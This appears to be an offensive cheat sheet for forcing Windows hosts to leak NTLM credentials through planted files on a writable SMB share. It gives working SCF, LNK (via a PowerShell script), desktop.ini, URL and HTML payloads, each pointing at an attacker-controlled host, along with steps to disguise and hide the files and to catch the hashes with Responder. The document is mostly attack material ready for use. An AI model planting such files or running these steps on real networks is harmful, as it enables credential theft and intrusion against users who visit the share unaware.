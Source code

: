 # Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire up responder `responder -I eth0`

# Automatic on folder/share visit III: Creating a system folder and placing `desktop.ini` inside it
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. connect to the writable SMB share using `smbclient`
4. create a folder and give it a non-suspicious name using `mkdir`
5. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
6. change int the new folder
7. upload the `desktop.ini` file `put <INI_FILE>`
8. make it a system file using `setmode <INI_FILE> +s`
9. and make it hidden using `setmode <INI_FILE> +h`
10. *overall,* it should like this:
```
smb: \> mkdir <FOLDER>
smb: \> setmode <FOLDER> +s
smb: \> cd <FOLDER>
smb: \> put <INI_FILE>
smb: \> setmode <INI_FILE> +s
smb: \> setmode <INI_FILE> +h
```
11. fire up responder `responder -I eth0`

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`